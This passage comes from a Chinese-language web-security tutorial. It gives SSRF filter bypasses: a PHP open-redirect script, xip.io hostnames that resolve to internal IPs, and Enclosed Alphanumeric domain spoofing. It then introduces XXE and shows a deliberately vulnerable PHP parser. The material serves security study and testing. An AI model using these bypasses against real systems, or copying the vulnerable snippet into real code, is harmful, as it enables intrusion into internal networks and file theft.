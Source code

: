 - 302跳转绕过

  ```
  <?php  
  $schema = $_GET['s'];
  $ip     = $_GET['i'];
  $port   = $_GET['p'];
  $query  = $_GET['q'];
  if(empty($port)){  
      header("Location: $schema://$ip/$query"); 
  } else {
      header("Location: $schema://$ip:$port/$query"); 
  }
  ```

- xio.ip绕过，会解析到子域

  ```
  http://10.0.0.1.xip.io = 10.0.0.1
  www.10.0.0.1.xip.io= 10.0.0.1
  http://mysite.10.0.0.1.xip.io = 10.0.0.1
  foo.http://bar.10.0.0.1.xip.io = 10.0.0.1
  10.0.0.1.xip.name resolves to 10.0.0.1
  www.10.0.0.2.xip.name resolves to 10.0.0.2
  foo.10.0.0.3.xip.name resolves to 10.0.0.3
  bar.baz.10.0.0.4.xip.name resolves to 10.0.0.4
  ```

- 用Enclosed alphanumerics绕过

  ```
  利用Enclosed alphanumerics
  ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ >>> http://example.com
  ```

  



### 4.XXE漏洞

**XXE漏洞原理**

> XXE全称为XML External Entity Injection即XMl外部实体注入漏洞

XXE漏洞触发点往往是可以上传xml文件的位置，没有对xml文件进行过滤，导致可加载恶意外部文件和代码，造成任意文件读取，命令执行、内网端口扫描、攻击内网网站、发起Dos攻击等危害 要了解xxe漏洞，那么一定得先明白基础知识，了解xml文档的基础组成



**XXE漏洞利用**

在php环境下

```
<?php
$xml=simplexml_load_string($_GET['xml']);
print_r($xml);
?>	
```
